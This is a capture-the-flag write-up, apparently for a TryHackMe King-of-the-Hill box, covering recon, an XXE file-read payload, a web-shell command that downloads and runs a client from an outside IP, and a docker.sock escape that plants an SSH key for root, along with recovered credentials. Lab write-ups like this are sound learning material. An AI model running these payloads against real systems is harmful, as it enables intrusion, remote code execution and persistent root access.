 # H1 Hard THM Public Writeup
# TESTING and verification required!

#### Map
```lua
nmap service overview


-- Webservers on 80, 81, 82 and 8888 - deadends
# 80 is a non-api api
#
# posts to api/user/login 
# api/user says no permissions
# api/ reveals the api name and stack

# 81 is a product site.
# 
# Contains a hidden access_log that seems to track all path and user agents that access it. this reveals at the top a /s3cr3t_area, but that just contains a hackerman image


# 82
# 82 appears to have some sort of LFI via its view?image= and feed?dir=, but seems constrained to the /hill directory. dir can view a directory down, revealing the file contents of the website, but view cant see this

# 8888
# 8888 contains a simple api where /users provide some creds: davelarkin:supersecurehuh. these work on ssh port 2222 to give access to a container the container has the docker sock mounted (at /var/docker.sock), but this seems unusable without root access, and I couldn't see how to privesc
```

#### Default Credentials
```
X : Y
```

#### Network Services to Foothold
xxe on `/api/user?xml`

```bash
KOTHIP=10.10.10.10
cp xxe.req.bak xxe.req
sed -i "s/CHANGEIPHEREWITHSED/$KOTHIP/g" xxe.req
```

EDIT TO exploit
```
POST /api/user?xml HTTP/1.1
Host: CHANGEIPHEREWITHSED
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Content-Type: application/xml; charset=utf-8
Content-Length: 190

<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/controllers/Website.php"> ]>
  <data>
    <id>
  &xxe;
    </id>
  </data>
```

 reading website.php reveals the cookie to access internal pages, which can be used to access the shell page and execute commands (here downloading a rush client with curl):

  ```
  curl -d "cmd=wget+10.10.29.36:1234/client+-O+/tmp/client+%26%26+chmod+777+/tmp/client+%26%26+/tmp/client" -H "Cookie: token=1f7f97c3a7aa4a75194768b58ad8a71d" http://10.10.138.24/shell
  ```

#### Privilege Escalation

- on the box, you can su to the admin user via `ssh admin@localhost -t bash` with password `niceWorkHackerm4n`, recovered from the api.php file
- admin's path is constrained, so use `export PATH=/bin:/usr/bin` to fix it
- admin can jump to root via `sudo -i`
- grab a static copy of curl for the box, e.g. via `wget https://github.com/moparisthebest/static-curl/releases/latest/download/curl-amd64`, and get it on the machine
- use this to abuse the local docker.sock to create a container with the host filesystem mounted (put your public key in place):

```bash
curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo <public key> >> /var/tmp/root/.ssh/authorized_keys"]}'
```
  This will output an id used in the next step.
- start the container: 
```bash
curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/<id here>/start
```
  
Then you should be able to straight `ssh root@<boxid>`.

#### Flags
Flags ? `/root/king.txt`
```
/root/root.txt
/root/containter1_flag.txt
/var/www/container2_flag.txt (in 81 docker)
/home/container3_flag.txt
/home/davelarkin/container4_flag.txt (in 8888 docker)
```
#### References

https://github.com/ChrisPritchard/ctf-writeups/blob/master/tryhackme-koth/koth-h1-hard.md
